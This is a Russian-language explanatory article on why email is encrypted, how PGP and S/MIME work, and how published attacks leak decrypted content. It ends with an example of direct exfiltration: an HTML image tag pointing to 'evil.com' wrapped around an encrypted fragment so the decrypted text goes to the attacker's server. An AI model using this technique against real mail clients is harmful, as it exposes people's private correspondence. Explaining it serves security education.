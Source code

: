 ### Для чего шифрование?
Сначала давайте разберемся, для чего нужно шифровать электронную почту. Представьте, что вы пишите письмо другу. Вы составляете его в почтовой программе и нажимаете кнопку отправить. Почтовая программа подключается к серверу и в специальном формате отправляет письмо для адресата. Сервер дальше уже разберется, куда пересылать письмо. Ваш почтовый клиент и сервер могут использовать зашифрованный канал для общения. Но этот канал защищен только от внешних злоумышленников. Сервер имеет возможность получить содержимое письма. Если злоумышленник завладеет почтовым сервером, то он также сможет читать содержимое передаваемых через сервер писем.

Чтобы этого избежать и сохранить переписку в тайне, нужно шифровать содержимое письма. Заголовки при этом должны оставаться читаемыми, чтобы сервер знал, куда направлять письмо. Для шифрования содержимого есть два основных способа - PGP и S/MIME.

В основе обоих стандартов лежит шифрование с открытым ключом. Это значит, что у получателя должна быть пара ключей - публичный и приватный. С помощью публичного можно будет зашифровать сообщение и добавить цифровую подпись, чтобы владелец приватного ключа смог расшифровать сообщение и проверить, что оно не изменилось по пути следования.

### PGP
Шифрование PGP (Pretty Good Privacy) реализуется последовательно хешированием, сжатием, симметричным шифрованием и, наконец, асимметричным шифрованием. На каждом этапе могут применяться различные алгоритмы. Хотя этот метод часто применяют для сообщений электронной почты, им можно зашифровать любые данные. Например, файлы.

### S/MIME
S/MIME в свою очередь разрабатывался специально для электронной почты. Secure/Multipurpose Internet Mail Extensions - многоцелевые расширения интернет-почты. Название само говорит за себя. S/MIME - одно из расширений стандарта, описывающего передачу различных типов данных через электронную почту. Очень часто используют цифровую подпись S/MIME без шифрования. Цифровые подписи являются аналогом правовых подписей на бумаге. С их помощью получатель может убедиться в источнике письма и в неподдельности содержимого.

### Уязвимости
Давайте теперь перейдем непосредственно к уязвимостям. В опубликованной работе описано два основных типа - прямая утечка и Gadget Attack (я не придумал адекватного перевода, поэтому оставлю оригинальное название). Обе опираются на утечку данных по второстепенному каналу. Например, в письме присутствует изображение, которое располагается на стороннем сервере. Если в адрес изображения попадет какая-то секретная информация, а почтовый клиент запросит это изображение с сервера, то серверу станет известна эта информация.

### Прямая утечка
Первый метод атаки очень простой. Большинство почтовых клиентов поддерживают письма в формате HTML. Этот формат позволяет гибкую настройку визуального оформления писем. Потому злоумышленник вставляет в текст письма тег с изображением таким образом, что открывающая часть с атрибутом адреса, куда уже подставлено имя сервера, находится до зашифрованного фрагмента, а закрывающая после. В результате, после того, как фрагмент будет расшифрован, его содержимое окажется частью тега изображения, а именно частью адреса. И если почтовый клиент пойдет по этому адресу за изображением, он передаст расшифрованный текст указанному злоумышленником серверу.

Приведу пример. Злоумышленник вставляет следующие данные: &lt;img src="http://evil.com/ далее следует зашифрованный фрагмент и после него "&gt;.
